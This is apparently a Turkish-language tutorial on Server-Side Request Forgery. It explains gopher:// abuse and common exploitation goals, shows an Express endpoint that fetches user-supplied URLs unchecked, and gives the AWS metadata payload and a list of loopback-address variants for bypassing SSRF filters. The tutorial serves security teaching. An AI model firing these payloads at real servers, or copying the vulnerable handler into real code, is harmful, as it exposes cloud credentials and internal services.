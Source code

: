 # Server-Side Request Forgery
Bir web sunucusu, kullanıcı girdisine bağlı olarak uzak kaynakları getiriyorsa, saldırgan bu sunucuyu kendi belirlediği URL’lere istek göndermeye zorlayabilir. İlk bakışta bu çok kritik görünmese de, web uygulamasının yapılandırmasına bağlı olarak SSRF zafiyetleri çok ciddi sonuçlara yol açabilir. Ayrıca, eğer web uygulaması kullanıcıdan gelen URL şemasına veya protokolüne güveniyorsa, saldırgan URL şemasını manipüle ederek daha da istenmeyen davranışlara sebep olabilir. Örneğin, SSRF zafiyetlerinin istismarında yaygın olarak kullanılan URL şemalarından biri:
- gopher://: Belirtilen adrese rastgele byte’lar gönderebilir. Saldırgan bunu kullanarak keyfi HTTP POST istekleri gönderebilir veya SMTP sunucuları ya da veritabanları gibi diğer servislerle iletişim kurabilir.

Yaygın sömürü yolları:
- Cloud Meta Verilerine Erişim
- Sunucudaki dosyaları sızdırmak
- Ağ keşfi
- Ağdaki belirli hizmetlere paketler göndermek, genellikle başka bir sunucuda Uzaktan Komuta Yürütme elde etmek için

# SSRF Keşfi
Örnek: Bir sunucu bir URL almak için kullanıcı girişini kabul eder.
```js
const express = require('express');
const axios = require('axios');
const app = express();
const port = 3000;

app.get('/user/image', async function (req, res) {
  const imgUrl = req.body.imgUrl;
  const imageReq = await axios.get(imgUrl);
  user.updateProfileImage(imageReq.data);
  res.send(imageReq.data);
});

app.listen(port, () => {
  console.log(`Listening on http://localhost:${port}`);
});
```

saldırgan aşağıdaki gibi girdi sağlar:
```
http://169.254.169.254/latest/meta-data/
```

Bu, AWS EC2 meta veri hizmetinden hassas bilgileri alır.

# Filtreleri atlamak
http://localhost:80
http://localhost:22
https://localhost:443
http://127.0.0.1:80
http://127.0.0.1:22
https://127.0.0.1:443
http://0.0.0.0:80
http://0.0.0.0:22
https://0.0.0.0:443
http://[::]:80/
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]
http://[::ffff:127.0.0.1]
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
http://0/
http://127.1
http://127.0.1
```

Prefix/Suffix tabanlı bypasslar ve URL manipülasyon teknikleri için:
- https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet